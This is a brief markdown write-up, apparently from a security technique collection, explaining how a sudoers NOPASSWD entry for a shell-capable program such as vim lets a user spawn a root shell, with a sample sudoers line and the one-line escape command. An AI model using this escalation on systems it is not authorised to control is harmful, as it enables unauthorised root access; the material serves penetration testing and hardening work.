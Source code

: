 # Sudo NOPASSWD Misconfiguration

**Platform**: Linux  
**Category**: Misconfiguration  
**Technique**: Running commands as root without password

## Description

If `sudoers` grants a user the ability to run certain commands with `NOPASSWD`, and those commands can escape to a shell (like `less`, `vim`, `python`, etc.), user can escalate to an elevated shell as root.

## Requirements

- User must be allowed to run a binary without password. i.e. :

```bash
dan ALL=(ALL) NOPASSWD: /usr/bin/vim
```

## Exploitation

```bash
sudo vim -c ':!bash'
```

Escaping via vim into a shell with elevated prevleges.

### SentinelByte